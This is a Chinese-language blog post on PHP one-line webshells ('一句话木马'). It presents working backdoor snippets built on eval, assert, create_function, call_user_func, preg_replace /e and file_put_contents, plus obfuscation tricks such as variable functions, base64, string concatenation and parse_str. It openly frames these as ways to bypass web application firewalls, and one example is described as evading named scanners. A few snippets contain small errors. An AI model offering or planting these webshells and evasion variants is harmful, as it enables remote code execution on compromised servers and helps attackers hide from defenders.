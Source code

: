 ```yaml
---
layout:     post
title:      PHP一句话木马
subtitle:   小马
date:       2018-05-09
author:     Waldo
header-img: img/post-bg-自然风景6.jpg
catalog: true
tags:
    - web安全 
    
---
```


# 什么是一句话木马

> 一句话木马就是只需要一行代码的木马，短短一行代码，就能做到和大马相当的功能。为了绕过waf的检测，一句话木马出现了无数中变形，但本质是不变的：木马的函数执行了我们发送的命令。

# 我们如何发送命令，发送的命令如何执行？

我们可以通过`GET 、POST 、COOKIE`这三种方式向一个网站提交数据，一句话木马用`$_GET[' ']、$_POST[' ']、$_COOKIE[' ']` 接收我们传递的数据，并把接收的数据传递给一句话木马中执行命令的函数，进而执行命令。
所以看到的经典一句话木马大多都是只有两个部分，一个是可以执行代码的函数部分，一个是接收数据的部分。

例如：`<?php eval(@$_POST['a']); ?>`

其中**eval**就是执行命令的函数，**$_POST['a']**就是接收的数据。eval函数把接收的数据当作PHP代码来执行。这样我们就能够让插入了一句话木马的网站执行我们传递过去的任意PHP语句。这便是一句话木马的强大之处。

示例：

![phpinfo.png](https://upload-images.jianshu.io/upload_images/7216746-781bfcd436842b3d.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)

因为木马是接收post请求中 “a” 的数据（ $_POST[‘a’]）,所以我们必须以post方法发送数据并且将我们要执行的代码赋值给“a”。如果把木马中的post替换成get，那么我么就需要以GET方法发送“a”，（ 就像这样： http://127.0.0.1/test.php?a=phpinfo();  ）我就不再另行演示了。

# 使用 其他函数制作一句话木马

## assert函数

```
<?php assert(@$_POST['a']); ?>
```

## create_function函数

```
<?php 
$fun = create_function('',$_POST['a']);
$fun();
?>
```

把用户传递的数据生成一个函数fun()，然后再执行fun()

## call_user_func回调函数

```
<?php
@call_user_func(assert,$_POST['a']);
?>
```

call_user_func这个函数可以调用其它函数，被调用的函数是call_user_func的第一个函数，被调用的函数的参数是call_user_func的第二个参数。这样的一个语句也可以完成一句话木马。一些被waf拦截的木马可以配合这个函数绕过waf。

## preg_replace函数

```
<?php 
@preg_replace("/abcde/e", $_POST['a'], "abcdefg");
?>
```

这个函数原本是利用正则表达式替换符合条件的字符串，但是这个函数有一个功能——`可执行命令`。这个函数的第一个参数是正则表达式，按照PHP的格式，表达式在两个“/”之间。如果我们在这个表达式的末尾加上“e”，那么这个函数的第二个参数就会被当作代码执行。

## file_put_contents函数

> 利用函数生成木马

```
<?php
$test='<?php $a=$_POST["cmd"];assert($a); ?>';
file_put_contents("Trojan.php", $test);
?>
```

函数功能：生成一个文件，第一个参数是文件名，第二个参数是文件的内容。

# 如何让一句话木马绕过waf ?

> waf是网站的防火墙，例如安全狗就是waf的一种。waf通常以关键字判断是否为一句话木马，但是一句话木马的变形有很多种，waf根本不可能全部拦截。想要绕过waf，需要掌握各种PHP小技巧，掌握的技巧多了，把技巧结合起来，设计出属于自己的一句话木马。

## PHP变量函数 

```
<?php 
$a = "eval";
$a(@$_POST['a']); 
?>
```

第三行使用了变量函数$a，变量储存了函数名eval，便可以直接用变量替代函数名。

## PHP可变变量

```
<?php
$bb="eval";
$a="bb";
$$aa($_POST['a']);
?>
```
看这句就能理解上述语句：`$$aa  = $($aa)  = $ (‘bb’) =  $bb = "eval"`

## str_replace函数

```
<?php
$a=str_replace("Waldo", "", "eWaldoval");
$a(@$_POST['a']);
?>
```

函数功能：在第三个参数中，查找第一个参数，并替换成第二个参数。这里第二个参数为空字符串，就相当于删除"Waldo"。

## base64_decode函数

```
<?php
$a=base64_decode("ZXZhbA==")
$a($_POST['a']);
?>
```

这里是base64解密函数，"ZXZhbA=="是eval的base64加密。

## "."操作符

```
<?php
$a="e"."v";
$b="a"."l";
$c=$a.$b;
$c($_POST['a']);
?>
```

## parse_str函数

```
<?php
$str="a=eval";
parse_str($str);
$a($_POST['a']);
?>
```

执行这个函数后，生成一个变量$a，值为字符串"eval"

## 更多技巧...

`多实战，多谷歌！`
上述六种技巧每一种单独使用都不能绕过waf，但是与 第三大点提到的函数混合起来使用，就可以顺利的欺骗waf。
`tips：使用一句话木马的时候可以在函数前加”@”符，这个符号让php语句不显示错误信息，增加隐蔽性。`

## 再来一个小栗子

```
<?php
function fun()
{return $_POST['a'];}
@preg_replace("/test/e",fun(),"test test test");
?>
```

这里又有一个技巧，创建函数 fun()，返回post中“a”的数据。我的这个例子很明显是一句话木马，但是安全狗却扫不出，D盾也是如此。
